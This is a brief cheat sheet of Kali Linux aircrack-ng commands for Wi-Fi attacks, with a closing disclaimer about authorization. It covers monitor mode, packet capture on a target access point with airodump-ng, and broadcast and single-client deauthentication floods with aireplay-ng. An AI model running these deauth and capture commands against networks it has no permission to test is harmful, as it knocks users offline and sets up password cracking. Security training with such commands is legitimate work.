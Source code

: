 ## Kali Linux WiFi Attack Commands
1. `ifconfig`
2. `iwconfig`
## Start the Wireless Interface in Monitor Mode
4. `airmon-ng start wlan0` (replace `wlan0` with your device name)
5. `airodump-ng wlan0` - Shows all networks around
6. `airodump-ng --channel 8 --bssid [MAC address] wlan0mon` - Shows devices connected to the selected WiFi network

## AIRODUMP-NG

- `airodump-ng --channel <channel> -bssid <BSSID> --write <file_name> <interface>`
  
  Example: `airodump-ng --channel 12 --bssid 40:30:20:10 --write test mon0`

## Deauthentication Attack

- `aireplay-ng --deauth <#packets> -a <AP> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 mon0`

## Target Attack

- `aireplay-ng --deauth <#packets> -a <AP> -c <target> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 -c 00:AA:11:BB mon0`


Remember, unauthorized use of these commands for network intrusion or any unethical activities may be illegal. Always obtain proper authorization before conducting any penetration testing or security research. These commands are for educational purposes to understand the basics of WiFi monitoring and manipulation.
